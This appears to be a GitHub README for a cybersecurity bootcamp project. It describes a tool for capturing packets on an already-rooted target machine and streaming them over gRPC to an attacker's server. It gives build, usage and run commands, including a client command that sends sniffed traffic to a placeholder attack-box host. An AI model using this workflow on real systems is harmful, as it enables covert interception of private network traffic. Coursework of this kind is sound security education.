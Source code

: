 # Rem-Cap 

Final project for the GA tech Cyber-Security bootcamp

Remotely capture network packets using a client-streaming gRPC API.

## How it works

The attack box runs the gRPC server.

Once the attacker has rooted the target machine, he/she `scp`'s the client binary and the trust certificate over from the attack box.

The attacker runs the client binary on the target machine specifying : 

- which network interfaces he/she would like to packet sniff
- the amount of time to sniff packets on those interfaces
- the address and port the attack box is running the gRPC server to stream sniffed packets to
- the path to the certificate

The server keeps track of which packets came from which client stream.

server-side logging shows the connection status of any clients and the number of packets captured from that particular connection.

client-side logging shows how much time has elapsed out of the total session time as well as how
many packets have been captured.

When a client's session time is up, the connection is closed and a session summary is received from the server.

After the server sends the session summary off, it writes all the captured packets to disk in the form of a pcap file located in `server/pcaps/` .

The pcap file can then be analyzed in wireshark.

## Compiling

The creation of certificates, keys, and both remcap binaries ( server and client ) can be automated with the `remcap` target in the Makefile.

``Example`` :

    make remcap pw=test host=localhost

All generated certificates and keys will be saved into a new `ssl/` dir

## Server Usage

    Usage:

    remcap [flags]

    Flags:
        --cert          string        Path to signed certificate
    -h, --help                        help for remcap
        --key           string        Path to server private key
    -o, --out           string        Specify out file
    -p, --port          string        Port to start Remcap server


## Running Server

    ./remcap_server --cert=ssl/server.crt --key=ssl/server.pem -p 4444

## Client Usage

    Usage:
    remcap [flags] [command]

    Available Commands:
    bpf         Apply Berkely Packet Filters
    help        Help about any command

    Flags:
        --cert      string      Path to trust cert from CA
    -d, --devices   strings     Network interfaces to sniff
    -h, --help                  Help for remcap
        --host      string      <ip>:<port> of attack box to stream packets to
        --hours     int         Amount of hours to run capture
    -m, --minutes   int         Amount of minutes to run capture
    -s, --seconds   int         Amount of seconds to run capture

## Running client :

`Pre-reqs` :

- Remote into target machine and escalate to root 
- `scp` the client binary ( `remcap` ) and the `ca.crt` file over

then....

        ./remcap -s 10 -d en0 --host ipofattackbox:portofserver --cert /path/to/ca.crt